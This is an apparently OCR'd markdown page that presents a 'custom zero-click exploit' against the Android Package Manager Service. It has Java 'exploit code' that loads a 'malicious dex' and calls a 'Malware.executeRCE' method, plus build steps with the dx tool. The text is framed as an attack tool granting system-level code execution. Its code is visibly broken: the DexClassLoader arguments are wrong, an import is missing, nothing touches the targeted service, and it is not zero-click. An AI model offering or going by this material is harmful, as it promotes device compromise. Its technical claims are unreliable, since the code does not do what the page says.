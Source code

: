   4. Install the signed APK on a vulnerable device.

### Why it Works

The Android System Server is responsible for managing system services and processes, including the package manager. By exploiting a vulnerability in this process, an attacker can execute arbitrary code at the system level, gaining full control over the device.

# Custom Zero-Click Exploit: Android Package Manager Service (PackageManagerService)

Create a custom zero-click exploit that targets a vulnerability in the Android Package Manager Service (PackageManagerService). This service is responsible for managing application installations and updates. Your exploit should allow an attacker to execute arbitrary code with system privileges.

### Exploit Code

  ```java
  import android.content.pm.PackageParser;
  import android.os.Build;
  import android.os.Bundle;
  import dalvik.system.DexClassLoader;
  
  public class MainActivity extends androidx.appcompat.app.AppCompatActivity {

      @Override
      protected void onCreate(Bundle savedInstanceState) {
          super.onCreate(savedInstanceState);
          setContentView(R.layout.activity_main);
  
          // Load the malicious dex file
          String[] paths = getPackageCodePath().split(" ");
          DexClassLoader cl = new DexClassLoader(paths, getPackageCodePath(), null, getClass().getClassLoader());
  
          // Invoke the RCE method from the dex file
          try {
              Method m = cl.loadClass("com.example.malicious.Malware").getDeclaredMethod("executeRCE", String.class);
              m.invoke(null, "Hello, Android!");
          } catch (Exception e) {
              e.printStackTrace();
          }
      }
  }
  ```

### How to Run

   1. Build the malicious dex file using the `dx` tool from the 		   Android SDK:

		```bash
		dx --dex --output=myexploit.dex myexploit.class
		```
